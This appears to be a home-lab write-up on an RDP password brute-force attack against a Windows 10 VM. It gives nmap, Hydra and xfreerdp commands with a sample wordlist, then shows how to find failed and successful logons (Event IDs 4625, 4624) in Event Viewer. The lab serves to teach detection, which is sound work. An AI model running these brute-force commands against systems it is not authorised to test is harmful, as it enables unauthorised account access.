








## 📋 Scenario Overview

**Objective**: Simulate an external attacker attempting to gain unauthorized access to target system or network by systematically guessing valid login credentials

**MITRE ATT&CK Mapping**:

- Tactic: Credential Access (TA0006)
- Technique: Brute Force (T1110)
- Sub-technique: Password Guessing (T1110.001)

**Difficulty**: Beginner  
**Estimated Time**: 30 minutes (attack + analysis)

## 🎯 Learning Goals

- Detect authentication-based attacks
- Analyze failed login patterns

## 🏗️ Environment Setup

### Target System

- Windows 10
- RDP enabled (port 3389)
- Test account: `client-lab` / `Password123`

### Attack System

- Kali Linux
- Tools: Hydra

### Prerequisites

- Target VM sending auth logs to Windows Event Viewer
- Network connectivity between attacker and target

## ⚔️ Attack Execution

### Step 1: Reconnaissance

```bash
# From Kali machine
nmap -p 3389 <WINDOWS_IP_ADDRESS>
```
_You can get the IP address from the command prompt using_ `ipconfig`


### Step 2: Prepare Wordlist

```bash
# create and open a new file to store passwords
nano passwords.txt

# example password list
password
Password1
Password123
admin
Admin123
```

The wordlists typically contains common passwords that can be used to brute force login attempts

### Step 3: Execute Attack

```bash
# Using Hydra
hydra -l testuser -P passwords.txt rdp://<WINDOWS_IP_ADDRESS> -t 1
```


We can see we had a valid password found for the user

### Step 4: Successful Authentication
Now to authenticate we have the right credentials, we can attempt to remote into this desktop with the credentials we have.

```bash
# After successful guess
xfreerdp3 /u:client-lab /p:Password123 /v:<WINDOWS_IP_ADDRESS>
```

Hit enter, and a new window should pop up with you logged in as the user

_Tip: If the_ `xfreedrdp3` _command doesn't work, try_ `sudo apt install freerdp3-x11` _to install then run the_ `xfreedrdp3` _command_
## 📊 Expected Log Evidence

When checking the logs, we will be looking for a few things:
- Event ID
- Network Information
- Failure information

#### 1. Searching by Event ID
The two events IDs were interested in our 4625 (failed log on) and 4624 (successful log on)

Type "Event Viewer" in the Windows search bar and click on Windows Logs then Security

Next, filter the logs using "Filter Current Log" on the right side of the window. It will give you a pop up and you should fill it out like this:

Click OK

Now it will show all the logs with Event ID 4625 or the failed logons. The most recent attempts will be at the top, if not, hit the refresh icon in the tab to the side. 

Click on an event log and we'll see some information at the bottom:

We can see the first line says an "account failed to log on", which would be one of the brute force attempts that we made.
If we continue scrolling in that section, we'll see the Network information and Failure information.


The failure reason and the status code 0xC000006D are displayed, mentioning a bad username or password


Here we see the name and IP address of the attacking machine

For successful log on attempts, filter the current log and put in 4624 as the event ID like below:

Click OK

Now double-click on one of your recent log in attempts

We can see the account was successfully logged on to. 
We also have a Logon Type 10 under Logon Information, which indicates a successful logon attempt using RDP. 
Under Network Information, we see that while the workstation name is the name for our target, the IP address is the same as our attacking machine.

### 4. IOCs (Indicators of Compromise)

- Source IP: `10.10.0.5` or whatever your attacking machine's IP is
- Compromised Account: `client-lab`

## 🎓 Lessons Learned

### What Worked Well

- Detection rule triggered correctly
- Clear log evidence available
- Easy to trace attack timeline
### Skills Developed

- Log analysis and pattern recognition
- Detection rule creation
- Incident response procedures
- Timeline reconstruction

## 📚 Additional Resources

- [MITRE ATT&CK T1110](https://attack.mitre.org/techniques/T1110/)
- [OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)